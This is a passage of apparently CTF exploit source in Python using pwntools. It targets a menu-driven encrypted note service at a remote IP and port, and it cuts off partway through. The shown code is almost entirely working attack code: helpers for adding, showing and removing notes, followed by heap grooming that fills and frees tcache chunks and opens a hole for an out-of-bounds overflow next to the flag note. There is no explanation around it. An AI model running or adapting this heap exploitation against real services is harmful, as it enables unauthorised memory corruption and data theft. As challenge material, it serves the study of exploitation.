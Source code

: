 ```python
int2bytes = lambda x: '{:x}'.format(x).decode('hex')
xor = lambda a, b: ''.join(chr(ord(x) ^ ord(y)) for x, y in zip(a, b))

def init():
    global p, g_notes
    #p = process('./note')
    p = remote('52.194.203.194', 21700)
    g_notes = [True]*2 + [False]*18

def menu(choice):
    p.recvuntil('4. exit\n')
    p.sendline(str(choice))

def add_note(data='', enc=ENC_AES, idx=None, size=None):
    global g_notes
    if idx is None:
        idx = g_notes.index(False)
    if size is None:
        size = len(data)
    menu(1)
    p.recvuntil('index:')
    p.sendline(str(idx))
    p.recvuntil('Encryption type:')
    p.sendline(str(enc))
    p.recvuntil('Note size:')
    p.sendline(str(size))
    p.recvuntil('Note:')
    p.send(data)
    g_notes[idx] = True
    return idx

def show_note(idx):
    menu(2)
    p.recvuntil('index:')
    p.sendline(str(idx))
    return p.recvline().strip().decode('hex')

def remove_note(idx):
    global g_notes
    menu(3)
    p.recvuntil('index:')
    p.sendline(str(idx))
    g_notes[idx] = False

def fetch_related():
    keys = []
    init()

    # original prefix is 'key:'
    prog = log.progress('Getting original message')
    keys.append((bytes2int('key:'), bytes2int(show_note(NOTE_KEY))))
    prog.success()

    prog = log.progress('Creating related message')
    # get tcache out of the way
    tcache_notes = [add_note() for _ in range(7)]
    idx_oob = add_note('A'*0x60) # size % 16 == 0
    for idx in tcache_notes:
        remove_note(idx)
    # hole for overflowing buffer
    remove_note(NOTE_FLAG)
    # fixup heap
    add_note()
```